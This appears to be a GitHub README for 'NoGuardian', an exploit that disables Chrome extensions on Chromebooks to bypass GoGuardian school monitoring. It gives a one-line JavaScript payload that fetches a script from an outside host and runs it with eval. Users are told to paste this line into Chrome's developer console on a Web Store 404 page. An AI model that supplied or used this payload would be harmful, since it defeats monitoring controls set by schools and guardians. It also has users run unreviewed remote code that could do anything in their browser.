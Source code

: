 # noguardian
Exploit to Disable Chrome Extentions (to Bypass GoGuardian)

# NoGuardian ChomeBook Bypass

Here are the steps to exploit to ChromeBook Extensions (to Bypass GoGuardian)



## 1) PREPARE EXPLOIT
Copy the code here:

## Code
`fetch(`https://tylerhalltech.com/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});`
## 2) LOAD 404 PAGE

Go to `https://chrome.google.com/webstore_`

Press Ctrl + Shift + I on the 404 page to open Chrome's Developer Tools.

Go to the CONSOLE tab

Paste the code from step 1 here and press enter

You should now be able to disable any Google Chrome extension (including GoGuardian)
